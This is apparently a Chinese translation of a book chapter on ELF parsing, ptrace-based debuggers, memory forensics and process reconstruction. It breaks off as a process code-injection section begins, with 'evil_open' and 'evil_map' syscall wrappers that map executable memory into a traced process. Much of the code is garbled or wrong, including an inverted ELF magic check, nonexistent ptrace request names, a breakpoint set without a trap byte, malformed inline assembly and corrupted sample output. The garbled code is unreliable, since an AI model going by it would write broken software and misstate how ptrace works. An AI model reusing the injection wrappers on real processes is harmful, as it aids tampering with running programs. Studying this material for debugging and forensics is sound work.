为了帮助总结我们所学的内容，我包含了一段简单的代码，它可以打印 32 位 ELF 可执行文件的程序头和节段名称。在本书书中，将展示更多与 ELF 相关的代码（以及更多有趣的示例）：

```c
/* elfparse.c - gcc elfparse.c -o elfparse */

#include <stdio.h>
#include <string.h>
#include <errno.h>
#include <elf.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <stdint.h>
#include <sys/stat.h>
#include <fcntl.h>

int main(int argc, char **argv) {
    int fd, i;
    uint8_t *mem;
    struct stat st;
    char *StringTable, *interp;
    Elf32_Ehdr *ehdr;
    Elf32_Phdr *phdr;
}
```


Elf32_Shdr *shdr;

if (argc < 2) {

    printf("Usage: %s <executable>\n", argv[0]);

    exit(0);

}

if ((fd = open(argv[1], O_RDONLY)) < 0) {

    perror("open");

    exit(-1);

}

if (fstat(fd, &st) < 0) {

    perror("fstat");

    exit(-1);

}

```c
/* 将可执行文件映射到内存 */
mem = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
if (mem == MAP_FAILED) {
  perror("mmap");
  exit(-1);
}
```

- 初始 ELF Header 从我们映射内存的偏移量 0 开始。

```c
ehdr = (Elf32_Ehdr *) mem;
```

- shdr 表和 phdr 表的偏移量由 Elf32_Ehdr 中的 e_shoff 和 e_phoff 成员提供。

```c
phdr = (Elf32_Phdr *) &mem[ehdr->e_phoff];
shdr = (Elf32_Shdr *) &mem[ehdr->e_shoff];
```

- 检查 ELF 魔数（前 4 字节）是否匹配 0x7F E L F

```c
if (mem[0] != 0x7f && strncmp(&mem[1], "ELF", 4)) {
  fprintf(stderr, "%s is not an ELF file\n", argv[1]);
  exit(-1);
}
```

- 这段代码只解析可执行文件，因此 ET_EXEC 匹配可执行文件。

```c
if (ehdr->e_type != ET_EXEC) {
  fprintf(stderr, "%s is not an executable\n", argv[1]);
  exit(-1);
}
printf("Program Entry point: 0x%x\n", ehdr->e_type);
```

- 我们通过 e_shstrndx 找到节头名称的字符串表，该索引给出了哪个字符串持有了字符串表。

### ELF 二进制格式

```c
/*
StringTable = &mem[shdr[ehdr->e_shstrndx].sh_offset];
*/
```

```c
/*
* 打印每个节头名称和地址。
* 注意我们获取了字符串表索引，
* 该索引通过 shdr.sh_name 成员
* 包含了每个节头的名称。
*/
printf("Section header list:\n\n");
for (i = 1; i < ehdr->e_shnum; i++) {
    printf("%s: 0x%x\n", &StringTable[shdr[i].sh_name], shdr[i].sh_addr);
}
```

```c
/*
* 打印段名称和地址。
* 除了 PT_INTERP，我们还打印了动态
 * 链接器（解释器）的路径。
*/
printf("Program header list\n\n");
for (i = 0; i < ehdr->e_shnum; i++) {
    switch(phdr[i].p_type) {
    case PT_LOAD:
```

- 我们知道文本段（text segment）从偏移量 0 开始。另一个可能的加载段是数据段（data segment）。

```c
if (phdr[i].p_offset == 0) {
    printf("Text segment: 0x%x\n", phdr[i].p_vaddr);
} else
    printf("Data segment: 0x%x\n", phdr[i].p_vaddr);
    break;
case PT_INTERP:
    interp = strdup((char *)&mem[phdr[i].p_offset]);
    printf("Interpreter: %s\n", interp);
    break;
case PT_NOTE:
    printf("Note segment: 0x%x\n", phdr[i].p_vaddr);
    break;
```

```c
case PT_DYNAMIC:
    printf("Dynamic segment: 0x%x\n", phdr[i].p_vaddr);
    break;
case PT_PHDR:
    printf("Phdr segment: 0x%x\n", phdr[i].p_vaddr);
    break;
    }
}
exit(0);
```

### 下载代码

你可以通过 `http://example.com` 下载示例代码。

### 总结

现在我们已经探索了 ELF，鼓励读者继续深入研究。在这一章中，我们涵盖了 ELF 的工作原理。

## Linux 追踪

在上一节中，我们通过 ptrace 了解了内核。ptrace 调用可以像其他系统调用一样与 ELF 交互，允许我们 trace 进程。

### ptrace 调用

ptrace 的的用法如下：

```c
#include <sys/ptrace.h>
long ptrace(enum ptrace_request request, pid_t pid, void *addr, void *data);
```

### ptrace 请求类型

| 请求 | 说明 |
| --- | --- |
| PTRACE_ATTACH | 附加到指定的 pid。该进程会收到 SIGSTOP 信号，可以通过 waitpid(2) 等待其停止。 |
| PTRACE_TRACEME | 表明该进程正被父进程追踪。如果父进程不追踪它，则 ptrace 将失败。 |
| PTRACE_PEEKEXT, PTRACE_PEEKDATA, PTRACE_PEEKUSER | 这些请求允许跟踪进程从跟踪进程映像中读取。 |
| PTRACE_POKETEXT, PTRACE_POKDATA, PTRACE_POKEUSER | 这些请求允许跟踪进程修改跟踪进程中的任何位置。 |
| PTRACE_SETREGS | 此请求允许跟踪进程设置跟踪进程的新寄存器。每个线程上下文都有自己的寄存器组。 |
| PTRACE_CONT | 告诉停止的进程恢复执行。 |
| PTRACE_DETACH | 此请求恢复跟踪进程并断开。 |
| PTRACE_SYSCALL | 此请求恢复跟踪进程，但安排在下次系统调用进入/退出时停止。这允许我们检查系统调用参数甚至修改它们。这种 ptrace 请求在名为 `strace` 的程序中被广泛使用。 |
| PTRACE_SINGLESTEP | 在下一条指令后停止。单步允许调试器在执行每条指令后停止。这允许用户在每条指令后检查寄存器值和进程状态。 |
| PTRACE_GETSIGINFO | 获取引起停止的信号的信息。它获取 siginfo_t 结构的副本，我们可以对其分析或修改后发送给跟踪者。 |
| PTRACE_SETSSIGINFO | 设置信号信息。将 siginfo 结构从跟踪者中的数据地址复制到 trace。这只会影响通常会传递给 trace 并被跟踪者捕获的信号。很难区分这些正常信号和由 ptrace() 自身生成的合成信号。 |
| PTRACE_SETOPTIONS | 从数据设置 ptrace 选项（忽略地址）。数据被解释为选项的位掩码。这些选项通过以下节中的标志指定（查看 ptrace (2) 的主页获取列表）。 |

## Linux 进程追踪

tracer（跟踪者）一词指的是正在执行追踪的进程（即调用 `ptrace` 的进程），而 trace（追踪）或 traced（被跟踪者）一词指的是被 tracer（通过 `ptrace`）正在追踪的程序。

> 默认行为会覆盖 mmap 或 mprotect 保护。这意味着用户可以使用 ptrace 向文本段（text segment）中写入内容（即使它是只读的）。如果内核使用了 par 或 grsec 并打上了带有 mprotect 限制的补丁，则则不成立，因为这些补丁强制执行段权限，使其也能被 ptrace；这是一个安全特性。
> 我关于 ELF 运行时感染的论文位于 `http://vxheavens.com/lib/vrn00.html`，其中讨论了绕过这些限制进行代码注入的一些方法。


### 进程寄存器状态和标志

x86 的 `user_regs_struct` 包含了通用寄存器、段寄存器、栈指针、指令指针、CPU 标志以及 TLS 寄存器：

```c
<sys/user.h>
struct user_regs_struct {
    __extension__ unsigned long int r15;
    __extension__ unsigned long int r14;
    __extension__ unsigned long int r13;
    __extension__ unsigned long int r12;
    __extension__ unsigned long int rbp;
    __extension__ unsigned long int rbx;
    __extension__ unsigned long int r11;
    __extension__ unsigned long int r10;
    __extension__ unsigned long int r9;
    __extension__ unsigned long int r8;
    __extension__ unsigned long int rax;
    __extension__ unsigned long int rcx;
    __extension__ unsigned long int rdx;
    __extension__ unsigned long int rsi;
    __extension__ unsigned long int rdi;
    __extension__ unsigned long int orig_rax;
    __extension__ unsigned long int rip;
    __extension__ unsigned long int cs;
    __extension__ unsigned long int eflags;
    __extension__ unsigned long int rsp;
    __extension__ unsigned long int ss;
    __extension unsigned long long int fs_base;
    __extension unsigned long long int gs_base;
    __extension unsigned long long int ds;
    __extension unsigned long long int es;
    __extension unsigned long long int fs;
    __extension unsigned long long int gs;
};
```

在 32 位 Linux 内核中，%gs 被用作线程本地存储（TLS）指针，尽管 x86 的 %fs 寄存器已用于此目的。通过使用 `user_regs_struct` 中的寄存器并使用 `ptrace` 对进程内存进行读写访问，我们可以对其进行控制。作为一个练习，让我们写一个简单的调试器，允许我们在程序的某个函数处设置断点。当程序运行时，它将停在断点处并打印寄存器值和函数参数。

### 一个基于 ptrace 的简单调试器

让我们来看利用 `ptrace` 创建调试器程序的代码示例：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <signal.h>
#include <elf.h>
#include <sys/types.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/mman.h>

typedef struct handle {
    Elf64_Ehdr *phdr;
    Elf64_Phdr *phdr;
    Elf64_Shdr *shdr;
    uint8_t *mem;
    char *symname;
    Elf64_Addr symmaddr;
    struct user_regs_struct pt_reg;
    char *exec;
} handle_t;

Elf64_Addr lookup_symbol(handle_t *, const char *);

int main(int argc, char **argv, char **envp) {
  int fd;
  handle_t h;
  struct stat st;
  long trap, orig;
  int status;
  char * args[2];

  if (argc < 3) {
    printf("Usage: %s <program> <function>\n", argv[0]);
    exit(0);
  }

  if ((h.exec = strdup(argv[1])) == NULL) {
    perror("strdup");
    exit(-1);
  }

  args[0] = h.exec;
  args[1] = NULL;

  if ((h.symname = strdup(argv[2])) == NULL) {
    perror("strdup");
    exit(-1);
  }

  if ((fd = open(argv[1], O_RDONLY)) < 0) {
    perror("open");
    exit(-1);
  }

  if (fstat(fd, &st) < 0) {
    perror("fstat");
    exit(-1);
  }

  h.mem = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
  if (h.mem == MAP_FAILED) {
    perror("mmap");
    exit(-1);
  }

  h.ehdr = (Elf64_Ehdr *)h.mem;
  h.phdr = (Elf64_Phdr *)(h.mem + h.ehdr->e_phoff);
  h.shdr = (Elf64_Shdr *)(h.mem + h.ehdr->e_shoff);

  if (strcmp((char *)h.mem, "ELF") != 0) {
    printf("not an ELF file\n");
    exit(-1);
  }

  if (h.phdr->p_type != PT_LOAD) {
    printf("not an executable\n");
    exit(-1);
  }

  if ((orig = lookup_symbol(&h, h.symname)) == 0) {
    printf("Unable to find symbol %s\n", h.symname);
    exit(-1);
  }

  pid_t pid = fork();
  if (pid < 0) {
    perror("fork");
    exit(-1);
  }

  if (pid == 0) {
    ptrace(PTRACE_TRAC, 0, NULL, NULL);
    execve(h.exec, args);
  } else {
    while (1) {
      waitpid(pid, &status, 0);
      if (WIFSTOPPED(status) && WTERMSIG(status) == SIGTRAP) {
        if (ptrace(PTRACE_GETREGS, pid, NULL, &h.pt_reg) < 0) {
          perror("PTRACE_GETREGS");
          break;
        }
        printf("Breakpoint at 0x%lx\n", h.pt_reg.rip);
        printf("rax: 0x%lx, rbx: 0x%lx, rcx: 0x%lx, rdx: 0x%lx, rsi: 0x%lx, rdi: 0x%lx\n", h.pt_reg.rax, h.pt_reg.rbx, h.pt_reg.rcx, h.pt_reg.rdx, h.pt_reg.rsi, h.pt_reg.rdi);
```


```c
printf("Press any key to continue...");

getchar();

h.pt_reg.rip += 2;

if (ptrace(PTRACE_SETREGS, pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_SETREGS");
    break;
}

ptrace(PTRACE_CONTINUE, pid, NULL, NULL);
} else if (WIFEXITED(status)) {
    printf("Completed tracing %d\n", pid);
    break;
}
}
}
close(fd);
return 0;
}

Elf64_Addr lookup_symbol(handle_t *h, const char *name) {
    int i, j;
    char *strtab;
    Elf64_Sym *symtab;

    for (i = 0; i < h->ehdr->e_shnum; i++) {
        if (h->shdr[i].sh_type == SHT_SYMTAB) {
            strtab = (char *)(h->mem + h->shdr[h->shdr[i].sh_link].sh_offset);
            symtab = (Elf64_Sym *)(h->mem + h->shdr[i].sh_offset);

            for (j = 0; j < h->shdr[i].sh_size / sizeof(Elf64_Sym); j++) {
                if (strcmp(&strtab[symtab->st_name], name) == 0)
                    return symtab->st_value;
                symtab++;
            }
        }
    }
    return 0;
}
```

### 使用追踪器

要编译上述源码，使用此命令：

```bash
gcc tracer.c -o tracer
```

请记住，`tracer.c` 通过查找和引用 `SHT_SYMTAB` 类型头来定位符号表，但它不适用于去除了 `SHT_SYMTAB` 表的执行文件（尽管它们可能包含 `SHT_DYNS`）。这实际上是合理的，因为我们通常调试的是处于开发阶段的程序，它们通常具有完整的符号表。

另一个局限性是它不允许你向正在执行和追踪的程序传递参数。因此，在真实的调试情况下，它可能表现不佳，因为你可能需要为被调试的程序传递开关或命令行选项。

作为我们设计的 `./tracer` 程序的一个示例，让我们在一个简单的程序上尝试它，该程序调用两次 `print_string(char *)` 函数，并在第一轮传递 "Hello 1" 字符串，在第二轮传递 "Hello 2"。

### Linux 进程跟踪

这是一个使用 `./tracer` 代码的示例：

```bash
$ ./tracer ./test print_string

Beginning analysis of pid: 6297 at 40057d

Executable ./test (pid: 6297) has hit breakpoint 0x40057d

%rcx: 0
%rdx: 7ffffaccbf18
%rbx: 0
%rax: 400597
%rdi: 400644
%rsi: 7ffffaccbf08
%r8: 7fd4f09efe80
%r9: 7fd4f4f0a5560
%r10: 7ffffaccbcb0
%r11: 7fd4f0650dd00
%r12: 400490
%r13: 7ffffaccbf00
%r14: 0
%r15: 0
```

请按任意键继续: c

Hello 1

```bash
Executable ./test (pid: 6297) has hit breakpoint 0x40057d

%rcx: ffffffffffffffff
%rdx: 7fd4f09f9e10
%rbx: 0
%rax: 9
%rdi: 40064d
%rsi: 7fd4f0fcc14000
%r8: fffffffff
%r9: 0
%r10: 22
%r11: 246
%r12: 400490
%r13: 7ffffaccbf00
%r14: 0
%r15: 0
%rsp: 7fff4accbel18
```

Hello 2

```bash
请按任意键继续: Completed tracing pid: 6297
```

如你所示，我们在 `print_string` 上设置了断点，每当调用该函数时，我们的 `./tracer` 程序都会捕获陷阱（trap），注册寄存器值，并在我们输入一个字符后继续执行。`./tracer` 程序是像 `gdb` 这样的调试器工作的良好示例。尽管它简单得多，但它演示了进程跟踪、断点和符号查找。

如果你想执行一个程序并对其进行跟踪，这个程序可以工作。但如果要跟踪一个已经在运行的进程呢？在这种情况下，我们希望使用 `PTRACE_ATTACH` 挂载到进程映像。这会向我们要挂载的进程发送 `SIGSTOP` 信号，因此我们使用 `wait` 或 `waitpid` 来等待进程停止。

### 一个具有进程挂载能力的简单 ptrace 调试器

让我们来看代码示例：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <signal.h>
#include <elf.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/mman.h>
```

```c
typedef struct handle {
    Elf64_Ehdr *ehdr;
    Elf64_Phdr *phdr;
    Elf64_Shdr *shdr;
    uint8_t *mem;
} handle_t;

char *symname;
Elf64_Addr symaddr;
struct user_regs_struct pt_reg;
char *exec;
```

```c
int global_pid;
Elf64_Addr lookup_symbol(handle_t *, const char *);
char *get_exe_name(int);
void sighandler(int);

#define EXE_MODE 0
#define PID_MODE 1
```

```c
int main(int argc, char **argv, char **envp) {
    int fd, c, mode = 0;
    handle_t h;
    struct stat st;
    long trap, pid;
    int status;
    char *args[2];

    printf("Usage: %s [-ep <exe>/<pid>] [-f <fname>]\n", argv[0]);
    memset(&h, 0, sizeof(handle_t));

    while ((c = getopt(argc, argv, "p:e:f:")) != -1) {
        switch (c) {
            case 'p':
                pid = atoi(optarg);
                h.exec = get_exe_name(pid);
                if (h.exec == NULL) {
                    printf("Unable to retrieve executable path for pid: %d\n", pid);
                    exit(-1);
                }
                mode = PID_MODE;
                break;
            case 'e':
                if ((h.exec = strdup(optarg)) == NULL) {
                    perror("strdup");
                    exit(-1);
                }
                mode = EXE_MODE;
                break;
            case 'f':
                if ((h.symname = strdup(optarg)) == NULL) {
                    perror("strdup");
                    exit(-1);
                }
                break;
            default:
                printf("Unknown option\n");
                break;
        }
    }

    if (h.symname == NULL) {
        printf("Specifying a function name with -f is required\n");
        exit(-1);
    }

    if (mode == EXE_MODE) {
        args[0] = h.exec;
        args[1] = NULL;
    }

    signal(SIGINT, sighandler);

    if ((fd = open(h.exec, O_RDONLY)) < 0) {
        perror("open");
        exit(-1);
    }

    if (fstat(fd, &st) < 0) {
        perror("fstat");
        exit(-1);
    }

    h.mem = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
    if (h.mem == MAP_FAILED) {
        perror("mmap");
        exit(-1);
    }

    h.ehdr = (Elf64_Ehdr *)h.mem;
    h.phdr = (Elf64_Phdr *)(h->mem + h->ehdr->e_phoff);
    // ... 中间省略 ...
    h.shdr = (Elf64_Shdr *)(h->mem + h->ehdr->e_shoff);

    if (h.mem[0] == 0x7f && memcmp((char *)(h.mem + 1), "ELF", 4) == 0) {
        printf("not ELF file\n");
        exit(-1);
    }

    if (h.ehdr->e_type != ET_EXEC) {
        printf("%s is not an executable\n", h.exec);
        exit(-1);
    }

    if (h.ehdr->e_shstr == 0 || h.ehdr->e_shoff == 0 || h.ehdr->e_shnum == 0) {
        printf("Section header table not found\n");
        exit(-1);
    }

    if ((symaddr = lookup_symbol(&h, h.symname)) == 0) {
        printf("Unable to find symbol: %s in executable\n", h.symname);
        exit(-1);
    }

    close(fd);

    if (mode == EXE_MODE) {
        if ((pid = fork()) < 0) {
            perror("fork");
            exit(-1);
        }

        if (pid == 0) {
            if (ptrace(PTRACE_TRACEME, pid, NULL, NULL) < 0) {
                perror("PTRACE_TRACEME");
                exit(-1);
            }
            execve(h.exec, args, envp);
        } else { // attach to the process
            if (ptrace(PTRACE_ATTACH, pid, NULL, NULL) < 0) {
                perror("PTRACE_ATTACH");
                exit(-1);
            }
        }

        waitpid(pid, &status, 0); // wait to stop
        global_pid = pid;
        printf("Beginning analysis of pid: %d at %lx\n", pid, symaddr);

        // Read the 8 bytes at symaddr
        if ((orig = ptrace(PTRACE_PEEKTEXT, pid, symaddr, NULL)) < 0) {
            perror("PTRACE_PEEKTEXT");
            exit(-1);
        }

        // set a breakpoint
        trap = orig & ~0xff;
        if (ptrace(PTRACE_POKETEXT, pid, symaddr, trap) < 0) {
            perror("PTRACE_POKETEXT");
            exit(-1);
        }

        // Begin tracing
        trace:
        if (ptrace(PTRACE_CONT, pid, NULL, NULL) < 0) {
            perror("PTRACE_CONT");
            exit(-1);
        }
        /* If we receive a SIGTRAP we presumably hit a breakpoint instruction.
           In which case we will print the current register state. */

        if (WSTOPPED(status) && WTERMSIG(status) == SIGTRAP) {
            if (ptrace(PTRACE_GETREGS, pid, NULL, &h.pt_reg) < 0) {
                perror("PTRACE_GETREGS");
                exit(-1);
            }

            printf("\nexecutable %s (%d) has hit breakpoint 0%x\n", h.exec, pid);
            printf("\n%rcx: %lx\n%rdx: %lx\n%rsi: %lx\n%rbx: %lx\n%rdi: %lx\n%rax: %lx\n%r8: %lx\n%r9: %lx\n%r10: %lx\n%r11: %lx\n%r12: %lx\n%r13: %lx\n%r14: %lx\n%r15: %lx\n%rsp: %lx\n",
                h.pt_reg.rcx, h.pt_reg.rdx, h.pt_reg.rsi, h.pt_reg.rbx, h.pt_reg.rdi, h.pt_reg.rax, h.pt_reg.r8, h.pt_reg.r9, h.pt_reg.r10, h.pt_reg.r11, h.pt_reg.r12, h.pt_reg.r13, h.pt_reg.r14, h.pt_reg.r15, h.pt_reg.rsp);

            printf("\nPlease hit any key to continue: %lx", orig);
            getchar();
```


```c
if (ptrace(PTRACE_POKETEXT, pid, symaddr, trap) < 0) {
    perror("PTRACE_POKETEXT");
    exit(-1);
}

h.pt_reg.rip = h.pt_reg.rip + 1; // skip the instruction that caused the trap

if (ptrace(PTRACE_SETREGS, pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_SETREGS");
    exit(-1);
}

if (ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL) < 0) {
    perror("PTRACE_SINGLESTEP");
    exit(-1);
}

wait(NULL);

if (WIFEXITED(status)) {
    printf("Completed tracing: %d\n", pid);
    exit(0);
}
```

# Linux 进程追踪

使用 `./tracer`（版本 2），我们现在可以附加到一个已经在运行的进程，然后在所需的函数上设置断点并跟踪执行。这里有一个追踪一个使用 `print_string(char *s)` 循环打印 20 次 Hello 字符串程序的示例：

```
ryan@elfmaster:-$ ./tracer -p "pidof /test2" -f print_string
Beginning analysis of pid: 7075 at 4005bd
Executable ./test2 (pid: 7075) has hit breakpoint 0x4005bd
%rcx: fffffffffffffff
%rdx: 0
%rbx: 0
%rax: 0
%rdi: 4006a4
%rsi: 7ffff93670e0
%r8: 7ffff93671f0
%r9: 0
%r10: 8
%r11: 246
%r12: 4004d0
%r13: 7ffff93673b0
%r14: 0
%r15: 0
%rsp: 7ffff93672b8
nPlease hit any key to continue: c
Executable ./test2 (pid: 7075) has hit breakpoint 0x4005bd
%rcx: fffffffffffffff
%rdx: 0
%rbx: 0
%rax: 0
%rdi: 4006a4
%rsi: 7ffff93670e0
%r8: 7ffff93671f0
%r9: 0
%r10: 8
%r11: 246
%r12 4004d0
%r13 7ffe93673b0
%r14: 0
%r15: 0
%rsp: 7ffe93672b8
%C
Caught SIGINT: Detaching from 7452
```

因此，我们实现了一个简单的调试软件的编码，它既可以运行程序并对其进行追踪，也可以附加到现有进程并对其进行追踪。这展示了 `ptrace` 最常见的用例，而你使用的其他大多数使用 `ptrace` 的程序都是 `tracer.c` 代码中技术的变体。

## 高级函数追踪软件

在 2013 年，我设计了一个追踪函数调用的工具。它与 `strace` 和 `ltrace` 非常相似，它不是追踪 `syscalls` 或库调用，而是追踪从可执行文件发出的每一个函数调用。该工具在第 2 章 ELF 二进制格式中被介绍过，但它与 `ptrace` 主题相关。这是因为它完全依赖于 `ptrace` 并使用控制流监控执行了一些非常厉害的动态分析。源代码可以在 GitHub 上找到：

https://github.com/leviathansecurity/ftrace

## ptrace() 与取证分析

`ptrace()` 命令是常用于用户态内存分析的系统调用。事实上，如果你正在设计一个运行在用户态的取证软件，它访问其他进程的唯一方法是通过 `ptrace` 系统调用，或者通过读取 `proc` 文件系统（除非该程序设置了某种显式的共享内存 IPC）。

> 可能会附加到一个进程，然后通过打开/lseek/read/write `/proc/<pid>/mem` 作为 `ptrace` read/write 语义的替代方案。

## Linux 进程追踪

2011 年，我获得了 DARPA CFT（网络快速通道）计划的合同，设计了一个名为 Linux VMA Monitor 的工具。该软件的目的是检测各种已知和未知的进程内存感染，例如 rootkits 和内存驻病毒。

它本质上使用理解 ELF 执行的特殊启发式方法对每个进程执行自动化智能内存取证分析。它可以发现异常或寄生虫，例如被劫持的函数和通用代码感染。该软件可以分析内存作为主机入侵检测系统，也可以对进程内存快照进行分析。该软件还可以检测并消毒磁盘上感染病毒的 ELF 二进制文件。

`ptrace` 系统在该中被大量使用，并展示了围绕 ELF 二进制和 ELF 运行时感染的相关代码。我还没有发布源代码，因为我想在发布之前提供更接近生产环境的版本。在全文中，我们将涵盖 Linux VMA Monitor 可以检测/消毒几乎所有的感染类型，并讨论和演示用于识别这些感染的启发式方法。

十多年来，黑客一直将复杂的恶意软件隐藏在进程内存中以保持隐性。这可能是共享库注入和 GOT 破坏的结合，或者任何其他技术的组合。系统管理员发现这些内容的几率非常低，特别是因为没有多少公开的软件可以检测到许多此类攻击。

我发布了几个工具，包括但不限于 AVU 和 ECFS，可以在 GitHub 和我的网站 http://bitkeys.org/ 上找到。存在的任何其他此类软件要么是高度专业化且私下使用的，要么根本不存在。同时，一个优秀的取证分析师可以使用调试器或编写自定义软件来检测此类恶意软件，知道你在寻找什么以及为什么是非常重要的。由于本章完全关于 `ptrace`，我想强调的是它是如何与取证分析相互关联的。而且它确实如此，而且极其如此。

## Linux 进程追踪

### 进程的算法

让我们来看可执行文件的重构：

1. 定位可执行文件的基地址（文本段）。这可以通过解析 `/proc/<pid>/maps` 来完成：

[程序 'evil' 的 `/proc/<pid>/maps` 文件的第一行输出]

```
00400000-401000 r-xp /home/ryan/evil
```

使用 `ptrace` 配合 `PEEKTEXT` 请求来读取整个文本段。你可以从前面 `maps` 输出的某行中看到，文本段（标记为 `r-xp`）的范围是 `0x400000` 到 `0x401000`。因此，这就是你的文本段缓冲区应该有多大的原因。由于我们还没有介绍过如何使用 `PTRACE_PEEKTEXT` 一次读取超过 `long` 长度的数据，我写了一个名为 `pid_read()` 的函数，它演示了实现此操作的良好方法。


```c
// pid_read() 函数的源代码
int pid_read(int pid, void *dst, const void *src, size_t len)
{
    unsigned sz = len / sizeof(void);
    unsigned char *s = (unsigned char *)src;
    unsigned char *d = (unsigned char *)dst;
    unsigned long word;
    while (sz!=0) {
        word = ptrace(PTRACE_PEEKTEXT, pid, (long *)s, NULL);
        if (word == -1)
            return 1;
        *(long *)d = word;
        s += sizeof(long);
        d += sizeof(long);
    }
    return 0;
}
```

2. 解析 ELF 文件头（例如 `Elf64_Ehdr`）以定位程序头表：

```c
/* 此处 buffer 是持有文本段的缓冲区 */
Elf64_Ehdr *ehdr = (Elf64_Ehdr *)buffer;
Elf64_Phdr *phdr = (Elf64_Phdr *) &buffer[ehdr->e_phoff];
```

3. 然后解析程序头找到数据段：

```c
for (c = 0; c < ehdr->e_phnum; c++) {
    if (phdr[c].p_type == PT_LOAD && phdr[c].p_offset) {
        dataVaddr = phdr[c].p_vaddr;
        dataSize = phdr[c].p_mems;
        break;
    }
}
pid_read(pid, databuff, dataVaddr, dataSize);
```

4. 将数据段读入缓冲区，并在其中定位动态段，然后从动态段找到 GOT 的 `d_tag` 并将其映射到 GOT：

> 我们在第 2 章《ELF 二进制格式》的动态链接部分讨论过动态段及其标签值。

```c
Elf64_Dyn *dyn;
for (c = 0; c < ehdr->e_phnum; c++) {
    if (phdr[c].p_type == PT_DYNAMIC) {
        dyn = (Elf64_Dyn *) &databuff[c].p_vaddr - dataAddr;
        break;
    }
}
if (dyn) {
    for (c = 0; dyn[c].d_tag != DT_NULL; c++) {
        switch (dyn[c].d_tag) {
            case DT_PLGOT:
                gotAddr = dyn[c].d_un.ptr;
                break;
            case DT_STRTAB:
                /* 获取 .dynstr */
                break;
            case DT_SYMTAB:
                /* 获取 .dynsym */
                break;
        }
    }
}
```

5. 一旦定位 GOT，必须恢复到运行之前的状态。最重要的部分是在每个 GOT 条目恢复原始 PLT 存根，延迟绑定在运行时工作。参见第 2 章《ELF 二进制格式》中的动态链接部分：

```
400300403e0 <puts@plt>:
4003e3: ff 25 32 00 20 jmp *0x2003(%rip)
4003e6: 68 00 00 00 ff
4003eb: e9 00 00 00 <init+x28>
```

6. 为 `puts()` 留出的 GOT 条目应该恢复指向栈的 PLT 存根。该地址 `0x4003e6` 在前面的命令给出。确定 GOT 到 PLT 方法的关系留给你练习。

7. 有时重构段头。然后将文本段和数据段（段头表）写入磁盘。

### Quenya 的进程重构

32 位 ELF 可执行文件只需打印 `You can Dump my segments!` 字符串，然后给我们时间重构它。现在，以下代码演示了 Quenya 将进程映像重构为可执行文件：

```
[Quenya v0.1@ELFWorkshop]
rebuild 2497 dumpme.out
+] analysis for reconstruction of process image (pid: 2497)
+] Getting Loadable segment...
+] Found loadable segments: text segment, data segment
Located PLT Vaddr 0x80400
Relevant GOT entries begin at 0x8040c
+] Resolved PLT: 0x804836
PLT Entries: 5
Patch #1 {0xb75f7040} changed to [0x8048346]
Patch #2 {0xb75a7190} changed to [0x8048356]
Patch #3 {0xb75a8366} changed to [0x8048366]
Patch #4 {0xb755a990} changed to [0x8048376]
+] Patched GOT by PLT stubs
Successfully rebuilt ELF object from memory
Output location: dumpme.out
[Quenya v0.1@ELFWorkshop]
quit
```

在这里，我们正在证明输出是正确的：
hacker@ELFWorkshop:/workshop/labs/exercise_9$ .dumpme.out
You can Dump my segments!

Quyena 也为可执行文件创建了最小的段头：
hacker@ELFWorkshop:/workshop/labs/exercise_9$ readelf -S dumpme.out

有七个段头，从偏移量 0x1118 开始，所示：

| | Name | Type | Addr | Off | Size | SRTAB | ES | Lk | Inf | Al |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| [0] | NULL | | 0xb804800 | 000000 | 000000 | | 0 | 0 | 0 | |
| [1] | interp | PROBITS | 0xb8048154 | 000154 | 000013 | AA | A | 0 | 0 | |
| [2] | text | PROBITS | 0xb8048000 | 000000 | 000658 | WA | AX | 0 | 0 | 15 |
| [3] | data | PROBITS | 0xb8049f08 | 000fe8 | 000120 | WA | | 0 | 0 | 4 |
| [4] | dynamic | DYNAMIC | 0xb8049f14 | 0001f4 | 0000e8 | WA | | 0 | 0 | 4 |
| [5] | has | SRTAB | 0xb8049f28 | 000028 | 000014 | WA | | 0 | 0 | |
| [6] | shstr | SRTAB | 0xb8049f28 | 000028 | 000014 | WA | | 0 | 0 | |

## Linux 进程追踪

```c
static inline volatile int evil_open(const char *path, unsigned long flags)
{
    long ret;
    asm __ volatile(
    "mov $0, %%rdi\n"
    "mov $1, %%rsi\n"
    "mov $2, %%rax\n"
    "syscall" : "g"(path), "g"(flags);
    ) asm("mov %%rax, %0" : "=r"(ret));
    return ret;
}
```

```c
static inline volatile void evil_map(void *addr, uint64_t len,
uint64_t prot, uint64_t flags, int64_t fd, uint64_t off)
{
    long mmap_fd = fd;
    unsigned long mmap_off = off;
    unsigned long mmap_flags = flags;
    unsigned long ret;
    asm __ volatile(
    "mov $0, %%rdi\n"
    "mov $1, %%rsi\n"
    "mov $2, %%rdx\n"
    "mov $3, %%r10\n"
    "mov $4, %%r8\n"
    "mov $5, %%r9\n"
    "mov $9, %%rax\n"
    "syscall" : "g"(addr), "g"(len), "g"(prot), "g"(flags),
    "g"(mmap_fd), "g"(mmap_off));
    ) asm("mov %%rax, %0" : "=r"(ret));
    return (void *)ret;
}
```

```c
uint64_t injection_code(void *vaddr)
{
```


## 代码示例：进程注入与反调试技术

### 核心注入逻辑 (`code_inject.c`)

```c
volatile void *mem = evil_map(vaddr, 8192, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, 1, 0);

asm __volatile__("int3");

}
```

### 辅助函数实现

```c
#define MAX_PATH 512

uint64_t get_text_base(pid_t pid)
{
    char maps[MAX_PATH], line[256];
    char *start, *p;
    FILE *fd;
    int i;
    int64_t base;

    snprintf(maps, MAX_PATH, "%s", "/proc/%d/maps", pid);

    if ((fd = fopen(maps, "r")) == NULL) {
